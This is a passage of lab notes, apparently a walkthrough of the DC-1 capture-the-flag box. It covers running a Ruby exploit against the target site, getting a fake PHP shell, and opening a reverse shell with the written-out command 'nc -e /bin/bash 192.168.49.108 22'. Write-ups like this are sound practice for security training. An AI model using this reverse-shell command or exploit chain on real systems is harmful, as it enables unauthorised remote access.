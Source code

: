 `mv 44449.rb ..` 

Now, lets run the created `44449.rb` exploit using the proper compiler for it, which we know is Ruby.

- ![[Pasted image 20220410133656.png]]

- We get an error, which we can input into goolge to find a possible solution.

- Someone tells us that the error  can be solved by running `sudo gem install highline`

So lets try that:

![[Pasted image 20220410133848.png]]

- Hey look, now the exploit worked when we run it with `ruby 44449.rb` 

This tells us to run the following command like `ruby nameofexploit.rb <websiteaddress>`


![[Pasted image 20220410134106.png]]

This worked, and it looks like this opened a shell:
![[Pasted image 20220410134156.png]]
we have successfully got a shell that is a fake php shell. 

Lets try to get a real shell now, using netcat.

But first, we need to know if netcat is on the box, so type `which netcat` within the shell.

![[Pasted image 20220410134347.png]]

So netcat is on the server, and we have our fake php shell on this server. Lets use netcat to create a bash shell on this server, so we can really elevate our privileges.

**Reverse shell** 
`nc -e /bin/bash 192.168.49.108 22`

`-e` says that we want to send an application

`/bin/bash` is specifies we want to send a terminal 

- ![[Pasted image 20220410134912.png]]

![[Pasted image 20220410134923.png]]

So, after establishing a netcat listener on our virtual machine and connecting to that listener by sending a reverse bash shell to ourselves from the exploited machine, we can now interact with the exploited machine from the listener. 

After typing  `whoami` we can see we get a response back 'www-data' which means we are successfully receiving a connection from the exploited DC-1 box.

We have a shell, and can now cd in and out of directories, but its hard to interpret whats going on and read stuff.

So lets make this prettier with a python one-line script that creates a more readable shell.

![[Pasted image 20220410135322.png]]
